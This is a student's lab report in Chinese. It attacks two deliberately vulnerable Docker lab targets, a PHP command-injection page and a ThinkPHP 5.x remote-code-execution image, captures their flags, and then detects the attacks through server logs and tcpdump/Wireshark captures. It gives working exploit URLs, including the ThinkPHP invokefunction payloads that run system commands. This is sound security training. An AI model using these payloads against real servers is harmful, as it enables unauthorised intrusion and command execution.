# 实验报告：第一层双靶标攻击与利用检测_丁梦

## 一、实验目的

本次实验旨在模拟对第一层网络中的两个典型靶标进行攻击、利用及检测

## 二、实验环境

1. **物理主机操作系统**: macOS
2. **虚拟化软件**: Parallels Desktop
3. **虚拟机操作系统**: Kali Linux
4. **核心工具**: Docker, Docker Compose, Vulfocus
5. **目标靶机 Docker 镜像**:
   * `c4pr1c3/vulshare_nginx-php-flag:latest`
   * `vulfocus/thinkphp-cve_2018_1002015:latest`
6. **攻击辅助工具**: `nmap`, `curl`, Web 浏览器, `Burp Suite`, `tcpdump`

## 三、实验步骤

### （一）基础环境搭建:拉取目标 Docker 镜像

实验所需的靶机镜像是 `c4pr1c3/vulshare_nginx-php-flag:latest` 和 `vulfocus/thinkphp-cve_2018_1002015:latest`。
您可以在 Vulfocus 平台的 "镜像管理" -> "公共镜像" 中搜索并下载这些镜像，或者直接在 Kali 终端中使用 Docker 命令拉取：

```bash
docker pull c4pr1c3/vulshare_nginx-php-flag:latest
docker pull vulfocus/thinkphp-cve_2018_1002015:latest
```

### （二）靶标一：`c4pr1c3/vulshare_nginx-php-flag:latest` 攻击与利用检测

#### 1. 启动靶机环境

在 Vulfocus 平台中，找到 `c4pr1c3/vulshare_nginx-php-flag:latest` 镜像，点击 "启动"按钮。Vulfocus 会为该容器分配一个 IP 地址和端口

启动靶机


#### 2. 信息收集

靶机的访问地址为 `http://10.37.133.3:8630/`。

使用 `nmap` 对靶机IP `10.37.133.3` 和端口 `8630` 进行基础的端口扫描，了解其开放的服务：

```bash
nmap -sV -p 8630 10.37.133.3
```



```bash
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ nmap -sV -p 8630 10.37.133.3

Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-23 12:08 EDT
Nmap scan report for kali-linux.host-only--3 (10.37.133.3)
Host is up.

PORT     STATE    SERVICE VERSION
8630/tcp filtered unknown

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2.22 seconds
```

通过浏览器访问靶机提供的 Web 服务 `http://10.37.133.3:8630/`。

访问网站页面如下：


页面上直接给出了关键提示信息：`index.php?cmd=ls /tmp`。这强烈暗示了存在一个通过 `index.php` 的 `cmd` GET参数执行任意命令的漏洞。

#### 3. 漏洞分析与利用

靶标名称 `vulshare_nginx-php-flag` 和页面提示 `index.php?cmd=ls /tmp` 明确指出了这是一个基于 Nginx 和 PHP 的应用，并且存在命令注入漏洞，目标是找到一个 "flag"。

**利用方式：通过 `cmd` GET 参数执行命令**
页面提示已经给出了利用方法：`index.php` 文件接受一个名为 `cmd` 的 GET 参数，其值会被服务器执行。

* **验证初步命令执行**：
  根据页面提示，直接访问 `http://10.37.133.3:8630/index.php?cmd=ls%20/tmp` (注意 URL 编码空格为 `%20`)。

  ```bash
  curl "http://10.37.133.3:8630/index.php?cmd=ls%20/tmp"
  ```

  观察返回结果，确认 `/tmp` 目录下的内容

  返回结果为:

  ```
  index.php?cmd=ls /tmpflag-{bmha755c46b-7381-4beb-9495-c15d83956d7e}
  ```

  

  通过执行 `ls /tmp` 命令,我们直接获得了flag: `flag-{bmha755c46b-7381-4beb-9495-c15d83956d7e}`

  
* **漏洞验证补充**：
  虽然我们已经获得了flag,但为了完整验证该漏洞的利用面,我们可以尝试执行其他系统命令:

  ```bash
  # 确定当前用户和权限
  curl "http://10.37.133.3:8630/index.php?cmd=id"
  ```

  返回结果显示为 www-data 用户:

  ```
  index.php?cmd=ls /tmpuid=33(www-data) gid=33(www-data) groups=33(www-data)
  ```

  

  ```bash
  # 查看系统信息
  curl "http://10.37.133.3:8630/index.php?cmd=uname%20-a"
  ```

  返回结果显示系统信息:

  ```
  index.php?cmd=ls /tmpLinux c93755678f6c 5.10.0-26-amd64 #1 SMP Debian 5.10.197-1 (2023-09-29) x86_64 GNU/Linux
  ```

  

  ```bash
  # 查看当前目录结构
  curl "http://10.37.133.3:8630/index.php?cmd=ls%20-la%20/"
  ```

  返回结果显示根目录结构:

  

#### 4. 威胁检测

##### 4.1查看 Nginx 访问日志:

首先，需要确定 `vulshare_nginx-php-flag` 容器的 ID 或名称：

```bash
docker ps
```

执行结果:


```
CONTAINER ID   IMAGE                                    COMMAND                  CREATED          STATUS                    PORTS                                   NAMES
c93755678f6c   c4pr1c3/vulshare_nginx-php-flag:latest   "/2.sh"                  27 minutes ago   Up 3 minutes              0.0.0.0:8630->80/tcp, :::8630->80/tcp   focused_euler
f1dbefb28904   vulfocus/vulfocus:latest                 "sh /vulfocus-api/ru…"   2 months ago     Up 47 minutes (healthy)   0.0.0.0:80->80/tcp, :::80->80/tcp       vulfocus_vul-focus_1
```

根据以上输出，目标容器的 ID 为 `c93755678f6c`。
进入容器内部：

```bash
docker exec -it c93755678f6c /bin/bash
```

Nginx 的访问日志通常位于 `/var/log/nginx/access.log`。
查看并筛选可疑请求：

```bash
# 实时查看日志 (部分内容)
tail -f /var/log/nginx/access.log
```


```bash
# 筛选包含命令执行的请求
cat /var/log/nginx/access.log | grep "index.php?cmd="
```

在日志中可以看到我们之前执行的命令,例如:

```
10.37.133.3 - - [23/May/2025:16:10:43 +0000] "GET /index.php?cmd=ls%20/tmp HTTP/1.1" 200 79 "-" "curl/8.11.0"
10.37.133.3 - - [23/May/2025:16:27:50 +0000] "GET /index.php?cmd=id HTTP/1.1" 200 86 "-" "curl/8.11.0"
10.37.133.3 - - [23/May/2025:16:29:31 +0000] "GET /index.php?cmd=uname%20-a HTTP/1.1" 200 134 "-" "curl/8.11.0"
10.37.133.3 - - [23/May/2025:16:29:50 +0000] "GET /index.php?cmd=ls%20-la%20/ HTTP/1.1" 200 1137 "-" "curl/8.11.0"
```

##### 4.2网络流量捕获 :

  由于我们的攻击机同时也是 Docker 容器的宿主机，当从 Kali 访问映射到本地 IP (`10.37.133.3:8630`) 的容器服务时，流量实际上是在 Docker 的内部网络中流动的。我们需要监听 Docker 的网桥接口（通常是 `docker0`）以及容器在该网络中的内部 IP 和实际服务端口（本实验中是 `172.17.0.2` 的 `80` 端口）。

1. **确定容器内部 IP 和网络接口**:
   首先，通过 `docker ps` 获取容器 ID (本例中为 `c93755678f6c`)。
   然后，使用 `docker inspect <container_id>` 查看容器网络详情，找到其在 `bridge` 网络（通常对应 `docker0` 接口）下的 `IPAddress` (本例中为 `172.17.0.2`)。
   ```
   docker inspect c93755678f6c
   ```


     ``json      // docker inspect c93755678f6c 输出片段      "NetworkSettings": {          // ...          "Networks": {              "bridge": {                  "IPAddress": "172.17.0.2",                  "Gateway": "172.17.0.1",                  // ...              }          }      }      ``
  2. **执行 `tcpdump` 命令**:
     在 Kali 主机上，打开一个终端窗口，执行以下命令，监听 `docker0` 接口上与容器 `172.17.0.2` 的 `80` 端口相关的流量：

    ``bash      sudo tcpdump -i docker0 -A 'host 172.17.0.2 and port 80' -w nginx_php_flag_traffic.pcap      ``
    

3. **产生流量**:
   在另一个终端窗口执行访问靶机的命令:

   ``bash      curl "http://10.37.133.3:8630/index.php?cmd=ls%20/tmp"      ``
   
4. **停止抓包并分析**:
   完成 `curl` 命令后，回到 `tcpdump` 终端按 `Ctrl+C` 停止抓包。
   此时，`nginx_php_flag_traffic.pcap` 文件中应包含捕获到的数据包。可以使用 Wireshark 打开该文件进行详细分析，可以清晰看到 HTTP GET 请求中的命令执行参数
   
   通过 Wireshark 打开 nginx_php_flag_traffic.pcap 文件后，可以清晰地追踪到攻击流程：
5. 观察到从攻击机IP (10.37.133.3) 到容器内部IP (172.17.0.2) 的TCP三次握手过程，建立了端口 80 上的连接
6. 捕获到一个源自 10.37.133.3、目标为 172.17.0.2 的HTTP GET请求。该请求的详细信息显示其请求路径为 /index.php?cmd=ls%20/tmp，这与我们通过 curl 发送的命令注入payload完全一致
   
7. 观察到从容器 (172.17.0.2) 返回给攻击机 (10.37.133.3) 的 HTTP/1.1 200 OK 响应，表明服务器成功处理了该请求

这些捕获到的数据包有力地证明了攻击者通过构造恶意的HTTP GET请求将 ls /tmp 命令传递给了目标服务器，并成功执行。

### （三）靶标二：`vulfocus/thinkphp-cve_2018_1002015:latest` 攻击与利用检测

#### 1. 启动靶机环境

在 Vulfocus 平台中，找到 `vulfocus/thinkphp-cve_2018_1002015:latest` 镜像，点击 "启动"。
根据用户提供的截图，靶机成功启动，Vulfocus 分配的访问地址为 `10.37.133.3:39365`。


#### 2. 信息收集

通过浏览器访问靶机 `http://10.37.133.3:39365`。


页面显示: "Welcome BMH shooting range"。这个信息比较通用，没有直接暴露 ThinkPHP 版本号。
`CVE-2018-1002015` 这个 CVE ID 并非广为人知的 ThinkPHP 标准 CVE 编号。但 `vulfocus/thinkphp-cve_2018_1002015` 这个镜像名称暗示它与 2018 年左右的 ThinkPHP 漏洞相关。这通常指向 ThinkPHP 5.x 系列的远程代码执行 (RCE) 漏洞，例如著名的 CVE-2018-20062。我们将基于这类漏洞进行尝试。

#### 3. 漏洞分析与利用

此漏洞源于 ThinkPHP 框架对控制器名称的解析存在缺陷，允许攻击者通过构造特定的 URL 来调用任意类的任意方法，从而导致远程代码执行。

**重要提示：** 在使用 `curl` 执行以下 Payload 时，如果 URL 中包含方括号 `[` 和 `]` (例如 `vars[0]` 或 `vars[1][]`)，直接使用可能会导致 `curl: (3) bad range in URL` 错误。这是因为方括号在 URL 中是特殊字符，需要进行百分号编码。`[` 应编码为 `%5B`，`]` 应编码为 `%5D`。建议将整个 URL 用单引号 `'` 包裹，以避免 shell 对特殊字符 (如 `&`, `\`) 的额外转义。

* **Payload 1: 执行 `phpinfo()` (验证漏洞存在性)**
  构造如下 URL (已进行方括号编码)：
  `http://10.37.133.3:39365/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars%5B0%5D=phpinfo&vars%5B1%5D%5B%5D=1`
  使用 `curl` 或浏览器访问：

  ```bash
  curl 'http://10.37.133.3:39365/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars%5B0%5D=phpinfo&vars%5B1%5D%5B%5D=1'
  ```

  
  如图,响应中包含 PHP 的配置信息（`phpinfo()` 的输出），则表明漏洞存在且可利用。
* **Payload 2: 执行系统命令 (例如 `id`)**
  构造 URL 以执行 `id` 命令 (已进行方括号编码)：
  `http://10.37.133.3:39365/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars%5B0%5D=system&vars%5B1%5D%5B%5D=id`
  使用 `curl` 执行：

  ```bash
  curl 'http://10.37.133.3:39365/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars%5B0%5D=system&vars%5B1%5D%5B%5D=id'
  ```

  如图,响应中包含类似 `uid=0(root) gid=0(root) groups=0(root)` 的输出，表示命令成功执行
  
* **Payload 3: 获取 Flag**
  假设 flag 文件位于 `/flag.txt` 或 `/flag`。
  构造 URL (已进行方括号编码) 尝试读取 `/flag.txt`：
  `http://10.37.133.3:39365/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars%5B0%5D=system&vars%5B1%5D%5B%5D=cat%20/flag.txt`
  或者尝试读取 `/flag`：
  `http://10.37.133.3:39365/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars%5B0%5D=system&vars%5B1%5D%5B%5D=cat%20/flag`
  使用 `curl` 获取：

  ```bash
  # 尝试读取 /flag.txt
  curl 'http://10.37.133.3:39365/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars%5B0%5D=system&vars%5B1%5D%5B%5D=cat%20/flag.txt'
  # 或者尝试读取 /flag
  curl 'http://10.37.133.3:39365/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars%5B0%5D=system&vars%5B1%5D%5B%5D=cat%20/flag'
  ```

  

  尝试 cat /flag.txt 和 cat /flag 都没有返回任何输出，这意味着 flag 文件可能不在这些预期的路径下，或者文件名不同，或者我们执行命令的用户（通过 id 命令可以看到，通常是 www-data 或类似权限较低的用户）没有权限读取这些文件。

1. 尝试列出根目录文件和目录：

```bash
    curl 'http://10.37.133.3:39365/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars%5B0%5D=system&vars%5B1%5D%5B%5D=ls%20-la%20/'
```


这里直接看并没有明显叫做 "flag" 或类似的文件。app 和 var 目录是常见的Web应用相关目录，但根目录下没有直接的 flag 文件

2. 搜索名为 "flag" (不区分大小写) 的文件：
   我们可以使用 find 命令在整个文件系统中搜索包含 "flag" 字符串的文件名。这可能会产生很多输出，但 flag 可能就在其中。
   find / -name '*flag*' (搜索文件名中包含 "flag" 的文件，不区分大小写可以使用 -iname)
   考虑到输出可能很长，直接在 curl 中显示可能不方便，但我们可以先尝试。
   需要对 find 命令中的 / 和 * 进行 URL 编码：/ 编码为 %2F，* 编码为 %2A。

```bash
    curl 'http://10.37.133.3:39365/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars%5B0%5D=system&vars%5B1%5D%5B%5D=find%20%2F%20-name%20%27%2Aflag%2A%27'
```



find 命令成功执行,找到了flag!

 `flag-{bmh8b59ed0c-3042-499e-9a2d-ef93c0e1ec87}`

 

#### 4. 威胁检测

##### 4.1 查看 Web 服务器访问日志**:

  首先确定 `thinkphp-cve_2018_1002015` 容器的 ID 或名称：

```bash
  docker ps
```


  得到容器ID 为 `c097683c73a4`。
  进入容器内部：

```bash
  docker exec -it c097683c73a4 /bin/bash
```


这个错误 OCI runtime exec failed: exec failed: unable to start container process: exec: "/bin/bash": stat /bin/bash: no such file or directory: unknown 表明在容器 c097683c73a4 内部，/bin/bash 这个路径是无效的，也就是说该容器中没有安装 bash shell，或者它不在 /bin/bash 这个位置。

这通常发生在一些极简的 Docker 镜像中，它们为了减小体积可能只包含了最基础的 shell，如 /bin/sh (Bourne Shell)，或者甚至没有一个标准的交互式 shell。

解决方案：尝试使用 /bin/sh

```bash
  docker exec -it c097683c73a4 /bin/sh
```


成功进入

    2.**定位 ThinkPHP 日志目录**:
        ThinkPHP 的日志通常位于 `/app/runtime/log/` (如果应用部署在 `/app` 目录)。
        根据之前的探索，日志按年月分子目录，例如 `runtime/log/YYYYMM/DD.log`。
        ``bash         # 在容器内执行         ls -la /app/runtime/log/         # 发现 YYYYMM 格式的目录， 202505         ls -la /app/runtime/log/202505/         ``


    在`202505` 目录下，找到以日期命名的 `.log` 文件: `24.log`


    3.**查看日志内容**:
        ``bash         # 日志文件为 /app/runtime/log/202505/24.log         cat /app/runtime/log/202505/24.log         # 或者使用 tail 查看最新的日志         tail -f /app/runtime/log/202505/24.log         ``
        

```bash
/app/runtime/log/202505 #         cat /app/runtime/log/202505/24.log
---------------------------------------------------------------
[ 2025-05-24T01:12:36+08:00 ] 10.37.133.2 GET 10.37.133.3:39365/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
[ error ] [0]variable type error： boolean
---------------------------------------------------------------
[ 2025-05-24T01:13:19+08:00 ] 10.37.133.2 GET 10.37.133.3:39365/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
[ error ] [0]variable type error： boolean
---------------------------------------------------------------
[ 2025-05-24T01:14:24+08:00 ] 10.37.133.3 GET 10.37.133.3:39365/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars%5B0%5D=phpinfo&vars%5B1%5D%5B%5D=1
[ error ] [0]variable type error： boolean
```

**日志分析**：

* **请求详情**：日志中清晰可见多个针对 `index.php` 的 GET 请求，它们都利用了 ThinkPHP RCE 漏洞的特征 (`s=index/\think\app/invokefunction`, `function=call_user_func_array`, `vars[0]=phpinfo`) 来尝试执行 `phpinfo()` 函数。
* **错误信息**：每个成功的 `phpinfo()` 调用请求后都记录了 `[ error ] [0]variable type error： boolean`。这表明尽管 `phpinfo()` 成功执行（如实验前面步骤所示，输出了PHP信息），但 ThinkPHP 的日志系统在处理 `phpinfo()` 函数的返回值 (通常是 `true`) 时遇到了类型不匹配的问题，因此记录了此错误。这个错误并不代表漏洞利用失败，而是框架内部处理流程的一个表现。
* **攻击溯源**：日志记录了攻击发生的时间（例如 `2025-05-24T01:12:36+08:00`）和请求的源 IP 地址（例如 `10.37.133.2`, `10.37.133.3`），这些信息对于追踪攻击来源至关重要。

如果执行其他命令（如 `system` 调用 `id` 或 `cat`），其请求也会被类似地记录下来，但其执行结果（如 `id` 的输出或 flag 内容）主要通过 HTTP 响应直接返回给攻击者，不一定会详细记录在 ThinkPHP 的应用层日志中，除非配置了特定的日志级别或命令执行本身触发了 PHP 错误。

##### 4.3 网络流量捕获:

与靶标一类似，我们需要监听 Docker 的网桥接口 (`docker0`) 以及靶标二容器在该网络中的内部 IP 和实际服务端口。

1. **确定容器内部 IP**:
   使用 `docker inspect c097683c73a4`查看容器网络详情。
   ```json
   // docker inspect c097683c73a4 输出片段
   {
       "Id": "c097683c73a4f9c0e4ab736db3880a3d0da11c2e73a1e2af23d439ce10478271",
       // ... (其他字段已省略)
       "Config": {
           // ...
           "ExposedPorts": {
               "80/tcp": {}
           },
           // ...
       },
       "NetworkSettings": {
           // ...
           "Ports": {
               "80/tcp": [
                   {
                       "HostIp": "0.0.0.0",
                       "HostPort": "39365"
                   },
                   {
                       "HostIp": "::",
                       "HostPort": "39365"
                   }
               ]
           },
           // ...
           "IPAddress": "172.17.0.2", // 容器在默认 bridge 网络上的 IP
           // ...
           "Networks": {
               "bridge": {
                   // ...
                   "IPAddress": "172.17.0.2",
                   "Gateway": "172.17.0.1",
                   // ...
               }
           }
       }
   }
   ```

   根据输出，容器 `c097683c73a4` 在 `bridge` 网络（通常对应 `docker0` 接口）下的 `IPAddress` 为 `172.17.0.2`，其内部服务端口为 `80` (外部映射到 `39365`)。
   

2.**执行 `tcpdump` 命令**:
    ``bash     # 容器内部 IP 为 172.17.0.2，容器内服务端口为 80     sudo tcpdump -i docker0 -A 'host 172.17.0.2 and port 80' -w thinkphp_traffic.pcap     ``
    在 `tcpdump` 运行时，重新执行之前的 `curl` 攻击 Payload，获取 Flag 的 Payload：
    ``bash     curl 'http://10.37.133.3:39365/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars%5B0%5D=system&vars%5B1%5D%5B%5D=cat%20/tmp/flag-%7Bbmh8b59ed0c-3042-499e-9a2d-ef93c0e1ec87%7D'     ``

  

3.**停止抓包并分析**:
    按 `Ctrl+C` 停止 `tcpdump`。使用 Wireshark 打开 `thinkphp_traffic.pcap` 文件。
    筛选 `http` 流量，查看包含恶意 Payload 的 HTTP GET 请求，分析请求路径、参数以及服务器的响应

  

  

分析:
    1.  **TCP 连接建立 (数据包 1-3)**: 攻击机 (`10.37.133.3`) 与靶标容器 (`172.17.0.2`) 在端口 `80` 上成功完成了 TCP 三次握手。
    2.  **恶意 HTTP 请求 (数据包 4)**: 攻击机发送了一个 HTTP GET 请求，其 URL 包含了用于触发 ThinkPHP RCE 漏洞并执行 `cat /tmp/flag-{...}` 命令的恶意 Payload。
    3.  **服务器响应与数据回传 (数据包 6, 8)**: 服务器返回 `HTTP/1.1 200 OK` 响应，表明请求被成功处理。关键的命令执行结果 (flag 内容) 包含在数据包 6 (TCP Push) 中并回传给了攻击机
    4.  **TCP 连接关闭 (数据包 9-10 及之后)**: 攻击机发起 TCP 连接的关闭流程。

## 四、实验总结

本次实验成功完成了对第一层网络中两个典型靶标 `c4pr1c3/vulshare_nginx-php-flag:latest` 和 `vulfocus/thinkphp-cve_2018_1002015:latest` 的攻击、利用及检测。通过实践，我们达成了以下主要学习和操作目标：

1. **环境搭建与靶场熟悉**：

   * 成功在 macOS 物理主机上通过 Parallels Desktop 部署了 Kali Linux 虚拟机作为攻击机。
   * 在 Kali 环境中，熟练配置和使用了 Docker 及 Vulfocus 平台，能够顺利拉取、启动和管理目标靶机 Docker 镜像，为后续的渗透测试和安全分析奠定了基础。
2. **漏洞分析与利用实践**：

   * **针对 `c4pr1c3/vulshare_nginx-php-flag:latest`** (Nginx + PHP 命令注入漏洞):
     * 通过信息收集（`nmap` 扫描、浏览器访问页面提示 `index.php?cmd=ls /tmp`），快速识别了基于 GET 参数的命令注入漏洞。
     * 利用 `curl` 工具构造恶意 URL (如 `index.php?cmd=ls%20/tmp`)，成功执行了任意系统命令（如 `ls`, `id`, `uname -a`, `ls -la /`），并直接在 `/tmp` 目录下找到了 flag。
     * 验证了漏洞的广泛利用性，能够获取系统信息、用户信息和目录结构。
